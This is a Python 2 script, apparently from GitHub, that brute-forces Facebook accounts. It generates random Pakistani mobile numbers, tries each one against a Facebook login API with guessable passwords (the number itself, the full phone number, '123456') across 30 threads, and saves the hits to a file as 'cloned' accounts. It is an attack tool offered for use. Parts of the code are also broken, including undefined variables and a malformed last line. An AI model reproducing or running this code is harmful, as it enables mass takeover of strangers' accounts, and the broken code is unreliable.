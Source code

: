 #hello#Author Yunus#!/usr/bin/python2
#coding=utf-8
import os,sys,time,datetime,random,hashlib,re,threading,json,urllib,cookielib,getpass
os.system('rm -rf .txt')
for n in range(40000):

    nmbr = random.randint(1111111, 9999999)
    
    sys.stdout = open('.txt', 'a')

    print(nmbr)

    sys.stdout.flush()
    
try:
    import requests
except ImportError:
    os.system('pip2 install mechanize')
    
try:
    import mechanize
except ImportError:
    os.system('pip2 install request')
    time.sleep(1)
    os.system('Then type: python2 boss')

import os,sys,time,datetime,random,hashlib,re,threading,json,urllib,cookielib,requests,mechanize
from multiprocessing.pool import ThreadPool
from requests.exceptions import ConnectionError
from mechanize import Browser


reload(sys)
sys.setdefaultencoding('utf8')
br = mechanize.Browser()
br.set_handle_robots(False)
br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(),max_time=1)
br.addheaders = [('User-Agent', 'Opera/9.80 (Android; Opera Mini/32.0.2254/85. U; id) Presto/2.12.423 Version/12.16')]
br.addheaders = [('user-agent','Dalvik/1.6.0 (Linux; U; Android 4.4.2; NX55 Build/KOT5506) [FBAN/FB4A;FBAV/106.0.0.26.68;FBBV/45904160;FBDM/{density=3.0,width=1080,height=1920};FBLC/it_IT;FBRV/45904160;FBCR/PosteMobile;FBMF/asus;FBBD/asus;FBPN/com.facebook.katana;FBDV/ASUS_Z00AD;FBSV/5.0;FBOP/1;FBCA/x86:armeabi-v7a;]')]

def keluar():
	print 'Thanks.'
	os.sys.exit()

def acak(b):
    w = 'ahtdzjc'
    d = ''
    for i in x:
        d += '!'+w[random.randint(0,len(w)-1)]+i
    return cetak(d)


def cetak(b):
    w = 'ahtdzjc'
    for i in w:
        j = w.index(i)
        x= x.replace('!%s'%i,'\033[%s;1m'%str(31+j))
    x += '\033[0m'
    x = x.replace('!0','\033[0m')
    sys.stdout.write(x+'\n')


def jalan(z):
	for e in z + '\n':
		sys.stdout.write(e)
		sys.stdout.flush()
		time.sleep(00000.1)
def tik():
	titik = ['.   ','..  ','... ']
	for o in titik:
		print("\r\x1b[1;93mPlease Wait \x1b[1;91m"+o),;sys.stdout.flush();time.sleep(1)


back = 0
oks = []
id = []
cpb = []
vulnot = "\033[31mNot Vuln"
vuln = "\033[32mVuln"

os.system("clear")
print  """
\033[1;91m██████╗░██████╗░░█████╗░███╗░░██╗██████╗░
\033[1;92m██╔══██╗██╔══██╗██╔══██╗████╗░██║██╔══██╗
\033[1;93m██████╦╝██████╔╝███████║██╔██╗██║██║░░██║
\033[1;94m██╔══██╗██╔══██╗██╔══██║██║╚████║██║░░██║
\033[1;97m██████╦╝██║░░██║██║░░██║██║░╚███║██████╔╝
\033[1;93m╚═════╝░╚═╝░░╚═╝╚═╝░░╚═╝╚═╝░░╚══╝╚═════╝░
\033[1;91m              Tariq Chandio :)) 
\033[1;97m••••••••••••••••••••••••••••••••••••••••••••••      
\033[1;92m➣ \033[1;96mHArd work  MAKES ME FAMOUS (^o^) ..
\033[1;97m••••••••••••••••••••••••••••••••••••••••••••••      
\033[1;92m➣ \033[1;92mDEVOLPER   :            (F)
\033[1;91m➣ \033[1;92mFACEBOOK   :            (F)
\033[1;93m➣ \033[1;92mWHATSAPP   :       03458893258 
\033[1;96m➣ \033[1;92mGITHUB     :             new user
\033[1;97m••••••••••••••••••••••••••••••••••••••••••••••      
\033[1;92m➣ \033[1;96mCloning Ids Open 7 days..
\033[1;97m••••••••••••••••••••••••••••••••••••••••••••••             
"""

####Logo####

logo1 = """
\033[1;92m░██████╗██╗░░░██╗░█████╗░░█████╗░
\033[1;93m██╔════╝╚██╗░██╔╝██╔══██╗██╔══██╗
\033[1;91m╚█████╗░░╚████╔╝░██║░░╚═╝██║░░██║
\033[1;97m░╚═══██╗░░╚██╔╝░░██║░░██╗██║░░██║
\033[1;96m██████╔╝░░░██║░░░╚█████╔╝╚█████╔╝
\033[1;93m╚═════╝░░░░╚═╝░░░░╚════╝░░╚════╝░ 　 
\033[1;97m•••••••••••••••••••••••••••••••••••••••••••••••      
\033[1;91m➣ \033[1;96mYOU CAN COPY MY STYLE..
\033[1;97m•••••••••••••••••••••••••••••••••••••••••••••••      
\033[1;91m➣ DEVOLPER     :        (F)
\033[1;92m➣ FACEBOOK     :        (F)
\033[1;97m➣ GITHUB       :        ✓new user
\033[1;93m➣ WHATAAPP     :       03458893258
\033[1;97m•••••••••••••••••••••••••••••••••••••••••••••••      
\033[1;91m➣ \033[1;96mYOU CAN COPY ME ..
\033[1;97m•••••••••••••••••••••••••••••••••••••••••••••••      
"""
logo2 = """
\033[1;91m██╗   ██╗██╗   ██╗███╗   ██╗██╗   ██╗███████╗
\033[1;92m    ██║   ██║██╔════╝
\033[1;93m ╚████╔╝ ██║   ██║██╔╗
\033[1;94m  ╚██╔╝  ██║   ██║██║╚██╗██║██║   ██║╚════██║
\033[1;96m   
\033[1;97m   ╚═╝    ╚═════╝ ╚═╝  ╚═══╝ ╚═════╝ ╚══════╝
\033[1;92m➣      LEGEND OF KRS (KARACHI SINDH) 
\033[1;97m•••••••••••••••••••••••••••••••••••••••••••••••   
\033[1;96m➣ \033[1;93mHard work MAKES ME FAMOUS ...
\033[1;97m•••••••••••••••••••••••••••••••••••••••••••••••    
\033[1;91m➣ \033[1;92mAUTHOR    :   \033[1;97m(F)
\033[1;92m➣ \033[1;93mFACEBOOK  :   \033[1;97m(F)
\033[1;93m➣ \033[1;91mWHATSAPP  :   \033[1;97mNo whts
\033[1;94m➣ \033[1;96mGITHUB    :   \033[1;97m(F)
\033[1;96m➣ \033[1;92mTEAM      :   \033[1;97mProgramming
\033[1;91m➣ \033[1;93mVERSION   :   \033[1;97m1.0.2
\033[1;97m•••••••••••••••••••••••••••••••••••••••••••••••      
\033[1;91m➣ \033[1;93mCP IDS Open After 7 Days..
\033[1;97m•••••••••••••••••••••••••••••••••••••••••••••••     
"""
CorrectUsername = "Love"
CorrectPassword = "You"

loop = 'true'
while (loop == 'true'):
    username = raw_input("\033[1;91m➣ \x1b[1;93mTOOL USERNAME \x1b[1;97m»» \x1b[1;97m ")
    if (username == CorrectUsername):
    	password = raw_input("\033[1;92m➣ \x1b[1;93mTOOL PASSWORD \x1b[1;97m»» \x1b[1;97m ")
        if (password == CorrectPassword):
            print "Logged in successfully as " + username #Dev:THE YUNUS
	    time.sleep(2)
            loop = 'false'
        else:
            print "\033[1;94mWrong Password"
            os.system('xdg-open https://www.facebook.com/Muhmmadfaraz78')
    else:
        print "\033[1;94mWrong Username"
        os.system('xdg-open https://www.facebook.com/Muhmmadfaraz78')



##### LICENSE #####
#=================#
def lisensi():
    os.system('clear')
    login()
####login#########
def login():
    os.system('clear')
    print logo1
    print "\033[1;93m[1] START "
    time.sleep(0.05)
    
    time.sleep(0.05)
    print '\x1b[1;91m[0] EXIT'
    pilih_login()

def pilih_login():
    peak = raw_input("\n\033[1;95mCHOOSE: \033[1;93m")
    if peak =="":
        print "\x1b[1;97mFill In Correctly"
        pilih_login()
    elif peak =="1":
        Zeek()
def Zeek():
    os.system('clear')
    print logo1
    print '\x1b[1;92m[1] START CLONING '
    time.sleep(0.10)
    print '\x1b[1;91m[0] Back'
   
    time.sleep(0.05)
    action()

def action():
    peak = raw_input('\n\033[1;93m➣ \033[1;97mCHOOSE: ')
    if peak =='':
        print '[!] Fill In Correctly'
        action()
    elif peak =="1":              
        os.system("clear")
        print logo2
        print "\033[1;91m➣ \033[1;97mEnter any Pakistan Mobile code Number"+'\n'
        print '\033[1;92m➣ \033[1;93mExample'
        print '\033[1;92m[+] Jazz    :  00 01 02 03 04 05 06 07 08 09   \033[1;92m[+] Zong    :  10 11 12 13 14 15 16 17 18      \033[1;92m[+] Warid   :  22 23 24 25                     \033[1;92m[+] Ufone   :  31 32 33 34 35 36 37 38         [+] Telenor :  40 41 42 43 44 45 46 47 48 49' 
        try:
            c = raw_input("\033[1;92m➣ \033[1;97mCHOOSE : ")
            k="03"
            idlist = ('.txt')
            for line in open(idlist,"r").readlines():
                id.append(line.strip())
        except IOError:
            print ("[!] File Not Found")
            raw_input("\n[ Back ]")
            blackmafiax()
    elif peak =='0':
        login()
    else:
        print '[!] Fill In Correctly'
        action()
    print 50* '\033[1;94m-'
    xxx = str(len(id))
    jalan ('\033[1;92m[+] Total ids number: '+xxx)
    jalan ('\033[1;92m[+] Code you choose: '+c)
    jalan ("\033[1;93m[+] Wait A While Start Cracking...")
    jalan ("\033[1;92m[+] To Stop Process Press Ctrl+z")
    print 50* '\033[1;97m-'
    def main(arg):
        global cpb,oks
        user = arg
        try:
            os.mkdir('save')
        except OSError:
            pass
        try:
            pass1 = user
            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass1 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
            q = json.load(data)
            if 'access_token' in q:
                print '\x1b[1;92m[Successfull] ' + k + c + user + '  |  ' + pass1                                       
                okb = open('save/Checkpoint.txt', 'a')
                okb.write(k+c+user+pass1+'\n')
                okb.close()
                oks.append(c+user+pass1)
            else:
                if 'www.facebook.com' in q['error_msg']:
                    print '\033[1;97m[Checkpoint] ' + k + c + user + '  |  ' + pass1
                    cps = open('save/Checkpoint.txt', 'a')
                    cps.write(k+c+user+pass1+'\n')
                    cps.close()
                    cpb.append(c+user+pass1)
                else:
                    pass2 = k + c + user
                    data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass2 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                    q = json.load(data)
                    if 'access_token' in q:
                        print '\x1b[1;92m[Successfull] ' + k + c + user +  '  |  ' + pass2
                        okb = open('save/Checkpoint.txt', 'a')
                        okb.write(k+c+user+pass2+'\n')
                        okb.close()
                        oks.append(c+user+pass2)
                    else:
                        if 'www.facebook.com' in q['error_msg']:
                            print '\033[1;97m[Checkpoint] ' + k + c + user + '  |  ' + pass2
                            cps = open('save/Checkpoint.txt', 'a')
                            cps.write(k+c+user+pass2+'\n')
                            cps.close()
                            cpb.append(c+user+pass2)
                        else:
                            pass3="123456"
                            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass4 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                            q = json.load(data)
                            if 'access_token' in q:
                                print '\x1b[1;92m[Successfull] ' + k + c + user + '  |  ' + pass3
                                okb = open('save/Checkpoint.txt', 'a')
                                okb.write(k+c+user+pass3+'\n')
                                okb.close()
                                oks.append(c+user+pass3)
                            else:
                               if 'www.facebook.com' in q['error_msg']:
                                   print '\033[1;97m[Checkpoint] ' + k + c + user + '  |  ' + pass3
                                   cps = open('save/Checkpoint.txt', 'a')
                                   cps.write(k+c+user+pass3+'\n')
                                   cps.close()
                                   cpb.append(c+user+pass3)
                                                                                                                                                                                                                                                                                                                                                                                                        
                                                                                                                                                                                                          
        except:
            pass
        
    p = ThreadPool(30)
    p.map(main, id)
    print 50* '\033[1;91m-'
    print 'Process Has Been Completed ...'
    print 'Total Online/Offline : '+str(len(oks))+'/'+str(len(cpb))
    print('Cloned Accounts Has Been Saved : save/Checkpoint')
    jalan("Note : Your Checkpoint Accounts Will Open after  7 days")
    print ''
    print """
    \033[1;92m.                                  _____________¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶______________
______¶¶¶¶¶¶¶¶¶___________¶¶¶¶¶¶¶¶¶_______
____¶¶¶¶¶__________¶¶¶¶¶__________¶¶¶¶¶___
____¶¶___________¶¶¶¶¶¶¶¶¶____________¶¶__
____¶¶__________¶¶¶¶¶¶¶¶¶¶¶___________¶¶__
____¶¶______________¶¶¶¶¶¶____________¶¶__
____¶¶_____________¶¶¶¶¶¶¶____________¶¶__
____¶¶______¶¶___¶¶¶¶¶¶¶¶¶____________¶¶__
____¶¶_____¶¶¶¶¶¶¶¶¶¶¶¶¶¶_____¶_¶_____¶¶__
____¶¶_____¶¶¶¶¶¶¶¶¶¶¶________¶¶______¶¶__
____¶¶____¶¶¶¶¶¶¶¶¶¶¶¶¶_______¶¶¶_____¶¶__
____¶¶____¶¶¶__¶¶¶¶¶¶¶¶¶¶¶_____¶¶_____¶¶__
____¶¶______¶¶____¶¶¶¶¶¶¶¶¶____¶¶_____¶¶__
____¶¶_______¶_____¶¶¶¶¶¶¶¶¶_¶¶¶______¶¶__
____¶¶_____________¶¶¶¶¶¶¶¶¶¶¶________¶¶__
____¶¶_____________¶¶¶¶¶¶¶_¶_________¶¶___
_____¶¶_______¶¶___¶¶¶¶¶¶¶__________¶¶____
______¶¶______¶¶¶¶¶¶¶¶¶¶¶__________¶¶_____
_______¶¶_____________¶¶¶_________¶¶______
________¶¶___________¶¶__________¶¶_______
_________¶¶_________¶¶__________¶¶________
__________¶¶______¶¶¶__________¶¶_________
___________¶¶¶_______________¶¶___________
_____________¶¶____________¶¶¶____________
_______________¶¶¶_______¶¶¶______________
_________________¶¶¶__¶¶¶_________________
____________________¶¶____________________
"""

    
    raw_input("\n\033[1;92m[\033[1;92mBack\033[1;95m]")
    login() 
          
if __name__ == '__main__': git login()
